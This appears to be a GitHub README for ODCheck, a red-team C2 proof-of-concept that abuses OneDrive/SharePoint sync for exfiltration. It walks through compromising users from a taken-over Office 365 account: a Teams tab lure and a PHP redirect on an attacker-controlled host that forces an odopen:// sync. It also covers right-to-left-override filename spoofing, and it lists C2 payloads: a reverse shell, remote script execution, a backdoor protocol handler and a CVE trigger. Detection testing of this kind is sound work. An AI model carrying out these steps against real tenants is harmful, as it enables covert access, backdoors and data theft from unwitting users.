 # ODCheck

ODCheck is a C2-like proof-of-concept solution designed to empower security professionals in evaluating their alerting systems against specific cyber-attacks within the Office 365 environment. This tool simplifies the process of testing local security solutions, particularly in scenarios involving data exfiltration through OneDrive and Sharepoint traffic.
<br/><br/>

| MITRE Technique             | ID |
| :---------------- | :------: |
| Exfiltration over C2 Channel        |   [T1041](https://attack.mitre.org/techniques/T1041/)   |
| Masquerading: Right-to-Left Override            |   [T1036.002](https://attack.mitre.org/techniques/T1036/002/)   |
| Modify Registry    |  [T1112](https://attack.mitre.org/techniques/T1112/)   |
| Automated Collection |  [T1119](https://attack.mitre.org/techniques/T1119/)   |
<br/>

 **Setting Up ODCheck**
 
```
# You will need to have the PS2EXE PowerShell module installed 
Install-Module PS2EXE

# Copy the full ODCheck Folder from Github
git clone https://github.com/itssixtyn3in/ODCheck

# Run Manager.ps1 to start the Wizard
.\manager.ps1
```
ODCheck provides a few customization options from here that can be used, depending on what all you want to test.

- Option 1) This will customize the variables of the files that ODCheck will watch out for when the agent has been executed on a host. The setup will also require that you know the tenant and document library name that you will be using for the mutual sync connection. When setting up a document library that can be 

- Option 2) Inject a file name with the Right-To-Left-Override character to spoof the file extension.

- Option 3) Packages the script into an EXE file.
 <br/><br/>
 
 **Establishing A Sync Connection**
 
 The Microsoft Teams client in it's default configuration allows users to add website tabs to private conversations, or Teams channels. The website tab option can be linked to external pages, which can be used as a jumping point to have users sync specific Sharepoint libraries using the ODOpen:// protocol handler. For further details regarding this please see https://www.collectingflags.com

 If you've taken over a Office 365 account and can create Sharepoint Sites and write Microsoft Teams messages, then you can retrieve the ODSync link the following way. 
- Create a new sharepoint library and upload a file
- In a browser open up your dev tools > network > click on the 'sync' button on the Sharepoint page to trigger the ODOpen command
- Cope the URL from the network section entry
  
 ![onedrive_link-1024x231](https://github.com/itssixtyn3in/ODCheck/assets/130003354/40d0c5a7-c598-4a7f-adfb-349c533b7724)


 Your link for the sync connection will look similar to this:
 ```
 odopen://sync?userId=&userEmail=user%40email%2Ecom&isSiteAdmin=1&siteId=%7B123456e2%2D77be%2D4e43%2D9301%2D2d6cc8d5f778%7D&webId=%7B88af89a5%2D547e%2D44e5%2Dbab9%2Dcf1b27958693%7D&webTitle=OneDriveHealthCheck&webTemplate=64&webLogoUrl=%2Fsites%2FOneDriveHealthCheck2%2F%5Fapi%2FGroupService%2FGetGroupImage%3Fid%3D%27bdbb85bc%2D127a%2D4d63%2D95a6%2Dadaaf1394c1b%27%26hash%3D638490900916829775&webUrl=https%3A%2F%2Fexample%2Esharepoint%2Ecom%2Fsites%2FOneDriveHealthCheck2&onPrem=0&libraryType=3&listId=95e13011%2D92c1%2D488b%2Db46f%2D6d7b7b31fe0b&listTitle=Documents&scope=OPENLIST
```
Upload the ODOpen URL in a PHP file on a webhost that you control. The PHP file content should look like the following:
```
<?php
header("Location: odopen://sync?userId=&userEmail=user%40email%2Ecom&isSiteAdmin=1&siteId=%7B123456e2%2D77be%2D4e43%2D9301%2D2d6cc8d5f778%7D&webId=%7B88af89a5%2D547e%2D44e5%2Dbab9%2Dcf1b27958693%7D&webTitle=OneDriveHealthCheck&webTemplate=64&webLogoUrl=%2Fsites%2FOneDriveHealthCheck2%2F%5Fapi%2FGroupService%2FGetGroupImage%3Fid%3D%27bdbb85bc%2D127a%2D4d63%2D95a6%2Dadaaf1394c1b%27%26hash%3D638490900916829775&webUrl=https%3A%2F%2Fexample%2Esharepoint%2Ecom%2Fsites%2FOneDriveHealthCheck2&onPrem=0&libraryType=3&listId=95e13011%2D92c1%2D488b%2Db46f%2D6d7b7b31fe0b&listTitle=Documents&scope=OPENLIST", true, 301);
exit;
?>
```
 Once this sync has been established, then ODCheck can assist with creating a C2 connection. 
<br/><br/>
**Running commands**

Once a sync connection has been set up to the Sharepoint Document Library and the ODCheck client has been executed, then commands can be executed by dropping the payload files into the shared sync folder. 

- Enumeration: Runs multiple Windows enumeration commands and returns the output into the sync folder.
- Reverse Shell: Attempts to run a powershell base64 encoded reverse shell
- Execute remote Powershell script: Attempts executing a remote powershell script
- Install ODCheck protocol handler: Install the ODCheck protocol handler as a backdoor that can be triggered with odcheck://
- Trigger CVE-2023-32214: Attempts to run the MS-CXH-FULL protocol handler to cause a black screen condition.

https://github.com/itssixtyn3in/ODCheck/assets/130003354/36ea337f-ed2c-427e-9d4e-9628c812404f

